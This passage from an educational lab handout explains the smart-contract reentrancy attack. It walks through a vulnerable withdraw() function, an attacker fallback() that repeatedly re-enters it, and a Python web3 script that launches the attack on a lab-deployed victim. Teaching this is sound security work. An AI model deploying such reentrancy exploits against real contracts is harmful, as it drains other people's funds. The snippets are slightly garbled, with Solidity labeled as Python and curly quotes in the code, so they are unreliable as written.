 Line `$1` checks whether the sender (`msg.sender`) has enough money on the balance (if not, the invocation will fail). Here, `msg.sender` contains the address of the one invoking the contract. Since the victim contract is invoked by the attack contract, the address is the attack contract’s address. After passing the balance check, the contract sends the specified amount (Line `$2`) to the sender using `msg.sender.call`. This will send the specified amount of ether to `msg.sender`, i.e., the attack contract. This is where the problem occurs.
A smart contract typically receive money via a function call (the function must be labeled `payable`), but if it receives money not via a function call (such as through the local `call()` function) from another contract, a default function called `fallback()` will be invoked. The following is the `fallback()` function inside the attack contract.

```python
fallback() external payable {
    if(address(victim).balance >= 1 ether) { # $4
        victim.withdraw(1 ether);
    }
}
```
This function invokes the `withdraw()` function again. Because the balance of the victim contract has not been updated yet (in Line `$3`), the invocation will pass the balance check on Line `$1`, even though the attacker’s balance is already zero. This will trigger the `fallback()` function again in the attack contract, which will trigger the `withdraw()` function of the victim contract. This process will repeat until the victim contract’s balance is below 1 ether (Line `$4`). The following is is the function invocation sequence.

```
withdraw --> fallback --> withdraw --> fallback --> withdraw ...
```

**Task.** In this task, your job is to deploy the attack contract. The code, which is provided, is similar to the one used to deploy the victim contract. It should be noted that the attack contract must know the address of the victim contract. Therefore, students need to modify the code `deploy_attack_contract.py` to provide the correct address of the victim contract.

## Task 3: Launching the Reentrancy Attack
To launch the attack, we just need to invoke the `attack()` function of the attack contract. We need to send 1 ether to the contract during the invocation. The attack contract will deposit this 1 ether to the victim contract, or it will not be able to withdraw money from the victim contract. The code (listed below) is provided in the lab setup, but the address of the attack contract needs to be modified in the code.

```python
abi_file = "../contract/ReentrancyAttacker.abi"
attacker_addr = ’put the correct address here’

# Launch the attack
contract_abi = SEEDWeb3.getFileContent(abi_file)
contract = web3.eth.contract(address=attacker_addr, abi=contract_abi)
tx_hash = contract.functions.attack().transact({
            ’from’: sender_account,
            ’value’: Web3.toWei(’1’, ’ether’)
        })
tx_receipt = web3.eth.wait_for_transaction_receipt(tx_hash)
print("Transaction Receipt: {}".format(tx_receipt))
```
*Listing 6: The code to launch the attack (`deploy_attack_contract.py`)*
